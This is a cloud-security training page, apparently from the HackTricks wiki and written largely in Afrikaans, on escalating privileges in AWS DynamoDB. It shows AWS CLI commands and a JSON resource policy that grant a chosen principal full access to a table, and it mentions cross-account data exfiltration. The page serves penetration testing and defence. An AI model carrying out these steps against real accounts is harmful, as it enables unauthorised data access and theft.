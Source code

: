 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Vir meer inligting oor dynamodb, kyk:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Sedert Maart 2024 bied AWS *hulpbron-gebaseerde beleide* vir DynamoDB aan ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

As jy dus die `dynamodb:PutResourcePolicy` vir 'n tabel het, kan jy net vir jouself of enige ander principal volledige toegang tot die tabel gee.

Om die `dynamodb:PutResourcePolicy` aan 'n ewekansige principal toe te ken gebeur dikwels per ongeluk, as die admins dink dat die toekenning van `dynamodb:Put*` slegs die principal sal toelaat om items in die databasis te sit — of as hulle daardie permissionset voor Maart 2024 toegeken het...

Ideaal gesproke het jy ook `dynamodb:GetResourcePolicy`, sodat jy nie ander moontlik noodsaaklike permissies oorskryf nie, maar slegs die bygevoegde permissies wat jy benodig invoeg:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
As jy nie die huidige beleid kan kry nie, gebruik net hierdie een wat volle toegang tot die tabel aan jou principal verleen:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
As jy dit moet aanpas, hier is 'n lys van alle moontlike DynamoDB-aksies: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). En hier is 'n lys van alle aksies wat via 'n resource based policy toegelaat kan word *EN watter van hierdie vir cross-account gebruik kan word (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Nou, met die beleidsdokument `policy.json` gereed, plaas die resource policy:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Nou behoort jy die permissions te hê wat jy nodig gehad het.

### Post Exploitation

Sover ek weet is daar **geen ander direkte manier om escalate privileges in AWS net deur sommige AWS `dynamodb` permissions te hê**. Jy kan **read sensitive** inligting van die tables (wat AWS credentials kan bevat) en **write information on the tables** (wat ander kwesbaarhede kan aktiveer, soos lambda code injections...), maar al hierdie opsies word reeds bespreek op die **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Lees data deur data Streams te misbruik

{{#include ../../../../banners/hacktricks-training.md}}
